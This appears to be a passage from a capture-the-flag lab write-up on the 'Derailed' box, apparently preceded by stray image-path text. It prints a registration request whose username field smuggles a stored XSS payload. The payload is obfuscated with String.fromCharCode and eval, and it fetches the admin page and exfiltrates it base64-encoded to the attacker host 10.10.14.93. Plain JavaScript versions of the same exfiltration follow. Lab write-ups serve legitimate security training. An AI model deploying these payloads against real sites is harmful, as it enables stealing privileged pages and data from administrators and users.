 ```
authenticity_token=IJ-T1VLMmlYH84yBg8GfaZzH2v7Vu_ZIucsC6v3T4MwOSrDbgFcVxU1pr3ow0_XPOzZRaWAD8WxG5ZSNYh2U9Q&user%5Busername%5D=c0derpwnerc0derpwnerc0derpwnerc0derpwnerc0derpwn<select<style/><img+src='http://10.10.14.93/c0derpwner'+onerror="eval(String.fromCharCode(118,97,114,32,117,114,108,32,61,32,34,104,116,116,112,58,47,47,100,101,114,97,105,108,101,100,46,104,116,98,58,51,48,48,48,47,97,100,109,105,110,105,115,116,114,97,116,105,111,110,34,59,10,118,97,114,32,99,111,100,101,114,32,61,32,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,57,51,47,104,111,111,107,34,59,10,118,97,114,32,120,104,114,32,32,61,32,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,40,41,59,10,120,104,114,46,111,110,114,101,97,100,121,115,116,97,116,101,99,104,97,110,103,101,32,61,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,105,102,32,40,120,104,114,46,114,101,97,100,121,83,116,97,116,101,32,61,61,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,46,68,79,78,69,41,32,123,10,32,32,32,32,32,32,32,32,102,101,116,99,104,40,99,111,100,101,114,32,43,32,34,63,34,32,43,32,101,110,99,111,100,101,85,82,73,40,98,116,111,97,40,120,104,114,46,114,101,115,112,111,110,115,101,84,101,120,116,41,41,41,10,32,32,32,32,125,10,125,10,120,104,114,46,111,112,101,110,40,39,71,69,84,39,44,32,117,114,108,44,32,116,114,117,101,41,59,10,120,104,114,46,115,101,110,100,40,110,117,108,108,41,59))">&user%5Bpassword%5D=tester1&user%5Bpassword_confirmation%5D=tester1
```

can trigger an ajax request with report 
so admin give us the admin page





now we have to exfil the admin page ... with a js payload! i think we can add something for seeing what's inside source code of the /administration

https://www.freecodecamp.org/news/here-is-the-most-popular-ways-to-make-an-http-request-in-javascript-954ce8c95aaa/


```js

var http = new XMLHttpRequest();
http.open("GET","http://10.10.14.93/call");
http.send(null);

```

```js
var url = "http://derailed.htb:3000/administration";
var coder = "http://10.10.14.93/hook";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(coder + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);

```



this can be b64 encoded and send it after the working payload of the xss


